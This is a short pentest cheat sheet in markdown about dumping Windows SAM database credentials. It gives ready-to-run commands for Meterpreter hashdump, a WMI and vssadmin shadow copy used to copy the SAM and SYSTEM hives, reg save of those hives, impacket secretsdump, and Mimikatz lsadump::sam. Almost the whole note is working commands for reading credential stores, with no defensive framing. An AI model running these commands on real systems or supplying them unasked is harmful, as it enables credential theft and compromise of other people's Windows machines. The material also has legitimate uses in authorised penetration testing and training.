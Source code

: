 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#msf #wmi #vssadmin #reg #mimikatz #impacket
# SAM Database
- Local database of local users and their credentials. 
- Cannot be read by any user while windows is running.
- To dump credentials from the SAM database, SYSTEM is also required. [Credentials](Credentials.md)
### Metasploit
- Metasploit's `hashdump` can be used to dump the SAM database.
- Requires administrative privileges.
```
meterpreter > hashdump
```
### Fetching SAM and SYSTEM using Volume shadow copy
- This can be used to fetch SAM and SYSTEM database by creating a shadow copy of the windows installation.
- Requires administrative privileges.
- Using WMI to call the shadow copy function
```powershell
# Create a shadow copy of the C Drive
wmic shadowcopy call create Volume='C:\'
# Verify creation
vssadmin list shadows
# "Shadow Copy Volume" property has the location of the shadow copy 
# SAM and SYSTEM can be copied from this path
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\Administrator\Desktop\sam
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\Administrator\Desktop\system
```
### Fetching SAM and SYSTEM from Registry
- Registry can be used to fetch the SAM and SYSTEM hives.
- Requires administrative privileges.
```powershell
reg save HKLM\sam C:\Users\Administrator\sam-hive
reg save HKLM\system C:\Users\Administrator\system-hive
```
### Dumping SAM using impacket
- secretsdump.py can be used to dump the sam database
```bash
./secretsdump.py -sam sam-hive -system system-hive LOCAL
```
### Mimikatz
- Mimikatz can be used to dump SAM database directory or from the SAM and SYSTEM hives.
```powershell
# dump sam database online
privilege::debug
token::elevate
lsadump::sam
# or via saved sam and system files/registry hives
lsadump::sam /system:system.hiv /sam:sam.hiv
```
